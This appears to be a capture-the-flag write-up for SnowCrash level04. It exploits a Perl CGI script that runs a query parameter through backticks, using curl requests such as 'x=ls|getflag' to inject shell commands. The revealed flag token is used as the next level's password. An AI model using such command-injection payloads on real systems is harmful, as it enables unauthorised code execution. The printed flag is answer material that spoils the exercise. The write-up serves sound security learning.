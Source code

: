 # Level04

```bash
level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
```

```perl
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

```bash
level04@SnowCrash:~$ ./level04.pl
Content-type: text/html
```

### Finding the server

- A quick search to know how this CGI stuff works...

https://www.cs.ait.ac.th/~on/O/oreilly/perl/learn32/ch18_04.htm

- Find the server behind this

```bash
level04@SnowCrash:~$ netstat -plnt
(No info could be read for "-p": geteuid()=2004 but you should be root.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::4646                 :::*                    LISTEN      -
tcp6       0      0 :::4747                 :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::4242                 :::*                    LISTEN      -
```

```html
level04@SnowCrash:~$ curl  localhost:4646/level04.pl?x=test
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /level04.pl was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at localhost Port 4646</address>
</body></html>
```

```bash
level04@SnowCrash:~$ curl  localhost:4747/level04.pl?x=test
test
```

```html
level04@SnowCrash:~$ curl  localhost:80/level04.pl?x=test
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /level04.pl was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at localhost Port 80</address>
</body></html>
```

```bash
level04@SnowCrash:~$ curl  localhost:4242/level04.pl?x=test
SSH-2.0-OpenSSH_5.9p1 Debian-5ubuntu1.7
Protocol mismatch.
curl: (56) Recv failure: Connection reset by peer
```

### Then exploiting it

- Some documentation .... 

https://www.tutorialspoint.com/perl/perl_subroutines.htm

https://stackoverflow.com/questions/3589837/what-is-the-significance-of-an-underscore-in-perl

https://www.stat.berkeley.edu/~spector/extension/perl/notes/node73.html

https://alvinalexander.com/perl/edu/articles/pl010003.shtml

After testing some things, something made me think we're executing a shell

```bash
level04@SnowCrash:~$ curl localhost:4747/level04.pl?x='$$'
6260
```

As the code only executes the 1st parameter, I had to find a way to run `getflag` in the same command of `echo`

```bash
level04@SnowCrash:~$ curl  localhost:4747/level04.pl?x='ls | echo '
ls
```

```bash
level04@SnowCrash:~$ curl  localhost:4747/level04.pl?x='ls|whoami'
flag04
```

```bash
level04@SnowCrash:~$ curl  localhost:4747/level04.pl?x='ls|getflag'

Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

### Go to level05

```bash
su level05
Password:
<<< 'ne2searoevaevoem4ov4ar8ap'

level05@SnowCrash:~$
```
